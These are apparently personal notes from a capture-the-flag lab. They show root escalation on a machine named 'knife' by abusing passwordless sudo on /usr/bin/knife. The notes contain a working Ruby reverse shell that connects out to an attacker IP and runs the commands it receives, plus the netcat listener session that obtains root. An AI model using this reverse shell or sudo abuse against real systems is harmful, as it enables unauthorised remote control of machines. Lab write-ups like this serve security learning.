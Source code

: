# Root
sudo -l reveals commands that can be run as root

```bash
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

I think this is called Chef's Knife but this notes will be corrected once verified.

The command takes arguments for referencing to ruby code.
![[Pasted image 20210605105752.png]]

![[Pasted image 20210605105933.png]]

GITHub has a ruby reverse shell that works

![[Pasted image 20210605110407.png]]
````ruby
#!/usr/bin/env ruby

require 'socket'
require 'open3'

#Set the Remote Host IP
RHOST = "10.10.14.10" 
#Set the Remote Host Port
PORT = "7070"

#Tries to connect every 20 sec until it connects.
begin
sock = TCPSocket.new "#{RHOST}", "#{PORT}"
sock.puts "We are connected!"
rescue
  sleep 20
  retry
end

#Runs the commands you type and sends you back the stdout and stderr.
begin
  while line = sock.gets
    Open3.popen2e("#{line}") do | stdin, stdout_and_stderr |
              IO.copy_stream(stdout_and_stderr, sock)
              end  
  end
rescue
  retry
end
````

#### on target machine
````bash
$ sudo /usr/bin/knife exec "/home/james/callhome.rb"
````

#### on attacker box (kali)
````bash
 $ nc -nvlp 7070
listening on [any] 7070 ...
aconnect to [10.10.14.3] from (UNKNOWN) [10.10.10.242] 59916
We are connected!
id
sh: 1: aid: not found
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/
cat /root/root.exe
cat: /root/root.exe: No such file or directory
cat /root/root.txt
6c708bc8e9bc21785efda8d140a8dbd0

````
 
#### animated image for the rooting sequence
![[root 1.gif]]










